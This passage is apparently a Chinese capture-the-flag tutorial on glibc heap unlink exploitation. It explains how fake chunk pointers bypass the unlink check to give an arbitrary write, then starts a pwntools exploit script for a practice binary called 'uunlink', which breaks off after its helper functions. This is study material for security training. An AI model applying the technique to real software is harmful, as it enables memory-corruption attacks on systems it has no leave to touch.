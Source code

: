     P->fd->bk == P;
    // 等价于
    *(P->fd + 0x18) == P;
    // 等价于
    P->fd + 0x18 == &P;
    // 等价于
    P->fd = &P - 0x18

由此看来，我们只要满足fake chunk中的fd的值为&P - 0x18，即可绕过安全机制。

同样的，bk的值需要为&P - 0x10。注意，这里的P是合并到的地址。

若此时有一个数组/指针，专门用于存放这些`chunk`的地址时，&P便是可知的。

满足安全机制后，便会进行unlink：`FD->bk = Bk , BK->fd = FD`，如下：

    P->fd->bk = P->bk;
    // 等价于
    *(P->fd + 0x18) = &P - 0x10;
    // 等价于
    *(&P) = &P - 0x10;
    P = &P - 0x10;

    // 第二行同样：
    P->bk->fd = P->fd;
    // 等价于：
    P = &P - 0x18;
    // 即： P指向P自己的地址减去0x18的地方！

在可以利用的情况下，用户是可以对自己malloc的chunk进行修改的。因此对prev chunk进行修改，直接会变为修改存放这些chunk的数组/指针的值，我们便可以使其指向任意地址，并完成任意地址写。

### 例题uunlink

exp:

    from pwn import *
    local = 1
    elf = ELF('./uunlink')
    context(log_level='debug')
    if local:
        p = process('./uunlink')
        libc = elf.libc

    def malloc(index, size):
        p.recvuntil('Your choice: ')
        p.sendline('1')
        p.recvuntil('Give me a book ID: ')
        p.sendline(str(index))
        p.recvuntil('how long: ')
        p.sendline(str(size))

    def free(index):
        p.recvuntil('Your choice: ')
        p.sendline("3")
        p.recvuntil("Which one to throw?")
        p.sendline(str(index))
